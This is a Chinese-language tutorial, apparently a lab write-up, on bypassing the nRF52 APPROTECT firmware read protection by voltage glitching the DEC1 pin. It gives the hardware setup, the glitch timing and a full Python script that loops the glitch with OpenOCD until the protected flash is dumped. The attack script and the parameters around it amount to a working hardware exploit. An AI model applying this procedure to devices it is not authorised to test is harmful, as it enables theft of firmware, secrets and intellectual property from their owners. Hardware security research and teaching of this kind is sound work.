








nRF52 电压故障注入绕过 APPROTECT 固件读保护
相关工具及环境
推荐硬件设备清单
- nRF52840 QIAAD0 开发板（USB Dongle）
- Pico 示波器
- PowerShorter 电压短路故障注入设备
- FlexHolder 柔性探针台
- Jlink 调试器
- 杜邦线若干
软件清单
APPROTECT 介绍与开启
nRF52 系列芯片为保护开发者固件不被非法读取，提供了 APPRTOECT 固件读保护机制，开启读保护后无法使用 SWD 接口读取芯片内的固件
开启保护方法
先使用 Jlink 连接 目标 SWD 接口
| USB Dongle | Jlink |
|---|---|
| VDD | VT/VREF |
| GND | GND |
| SWCLK | TCK/SWCLK |
| SWDIO | TMS/SWDIO |

使用官方命令行工具（nRF-Command-Line-Tools）执行如下命令，对开发板重新上电复位后生效：
nrfjprog -f nRF52 --memwr 0x10001208 --val 0xFFFFFF00
再次连接芯片已无法查看 Flash

解除保护方法
不管是 Jflash 还是官方命令行工具都提供解除保护的功能（代价是清除芯片内固件，以达到保护固件不被非法读取的目的）
JFlash 软件在探测到保护开启时直接点击 Yes 即可解除保护，此过程会同时清除固件

官方命令行工具提供 nrfjprog -f NRF52 --recover 命令解除保护，此过程会同时清除固件
APPROTECT 介绍
通过阅读芯片手册第 42 页可以得知：APPROTECT 寄存器位于 0x10001208 默认值 0xFF 表示关闭保护，若写为 0x00 则表示开启保护，因此官方工具开启保护实际是将该寄存器写为了 0x00
芯片上电后会读取该寄存器的值，若为 0x00 则配置保护机制，不允许通过 SWD 接口访问芯片内固件，因此我们可以在芯片上电时对其进行故障注入，绕过该配置流程，使得调试接口保持开启状态
nRF52 芯片版本确认
鉴于 nRF52 新版本芯片已经对故障注入添加了缓解措施，无法简单地通过故障注入绕过读保护了，复现的时候需要使用老版本的 nRF52 芯片。同时因为很多芯片丝印与芯片手册无法对应，因此这里提供一个方法，简单判断芯片是否为新版本：
首先按照前文所说 SWD 接线方式接线，使用 nrfjprog -f NRF52 --recover 命令解除保护，然后拔插重新上电，使用如下命令读取 APPROTECT 寄存器的值，若全为 FF 则是老版本芯片，若为 5A 则是新版本芯片
nrfjprog -f nRF52 --memrd 0x10001208
故障注入绕过 APPROTECT 读保护
电压毛刺注入物理位置：CPU 核心供电
电压故障注入攻击点位于芯片附近的一颗小电容的右侧，该点连接到芯片 DEC1 引脚（电容左侧通过万用表可测得为 GND）

电压毛刺注入时间位置
使用示波器以 DEC1 上升沿作为触发，观察 DEC1 处电压波形，可以看到存在一个小的电压下降沿，压降大约 100~200mv，毛刺就打在这个小下降沿附近

故障注入时遇到的问题
1、如何控制设备重启
答：通过 PowerShorter 设备的 GPIO 为 Dongle 供电，Python 代码控制 GPIO
2、打哪个地方的电压、如何打
答：打 DEC1；短接 DEC1 和 GND 使其电压短暂拉低
3、什么时候打故障
答：以 GPIO 供电上升沿作为触发，设置延时，故障打在 DEC1 下降沿附近
4、怎么判断是否打成功了
答：openocd 连接 SWD 读取固件，dump 成功则故障注入成功（注：Openocd 调用 jlink 需要使用 zadig 软件安装 winusb 驱动）
配合 Flex Holder 柔性探针台可以免去焊接，直接将小电容右侧的 DEC1 引脚引出


硬件接线参考

成功波形参考
A 通道(蓝色波形)为供电电压；B 通道(红色波形)为 DEC1 电压
DEC1 的下降沿位置恰好被故障毛刺命中，不再表现为下降沿，但并不是没有下降沿就为成功

攻击脚本参考
推荐使用 Jupyter Lab 进行实验
导入 Python 库
from power_shorter import *
import time, os, random, subprocess
import serial
import faultviz
初始化设备
ps_dev = PowerShorter('com55')
测试设备上下电
ps_dev.gpio(GPIO.GPIO1, 0)
time.sleep(1)
ps_dev.gpio(GPIO.GPIO1, 1)
初始化 faultviz 服务与表单
faultviz.start_view_service(port=12345)
vt = faultviz.ViewWidget()
定义攻击函数
def nrf52_attack():
ps_dev.gpio(GPIO.GPIO1, 0)
time.sleep(1)
glitch_delay = random.randint(158500, 158700) # 设置毛刺延迟范围
glitch_pulse = random.randint(100, 300) # 设置毛刺宽度范围
ps_dev.engine_cfg(Engine.E1, [(0, glitch_delay), (1, glitch_pulse), (0, 1)], TRIGGER_MODE.RISE) # 设置毛刺延时及宽度
ps_dev.arm(Engine.E1) # 激活毛刺
ps_dev.gpio(GPIO.GPIO1, 1) # 设备上电
time.sleep(0.5) # 延迟一段时间 等待攻击完成
s = ps_dev.state(Engine.E1) # 检查毛刺状态
if s == "glitched":
res, result = subprocess.getstatusoutput('openocd -f interface/jlink.cfg -c "transport select swd" -f target/nrf52.cfg -c "init;dump_image nrf_flash.bin 0x0 0x10000;exit"') # 通过 OpenOCD dump 固件，若成功则表示已绕过 APPROTECT
if "Could not find MEM-AP to control the core" in result:
status = "Normal"
elif "No J-Link device found" in result:
status = "No Jlink"
elif res == 0:
status = "Success"
else:
status = "Unknown"
vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = result, res = res) # 更新故障结果到表单
return res
else:
print("no trigger")
执行一次攻击函数，检查代码是否有问题
nrf52_attack()
查看表单，检查刚才的攻击是否将结果添加到表单中
vt.show()
写个循环，直到成功绕过 APPROTECT 才停止攻击，循环过程中故障参数及结果会不断添加到 vt 表单中，配合示波器调整参数，优化毛刺位置
doAttack = 1
while(doAttack):
doAttack = nrf52_attack()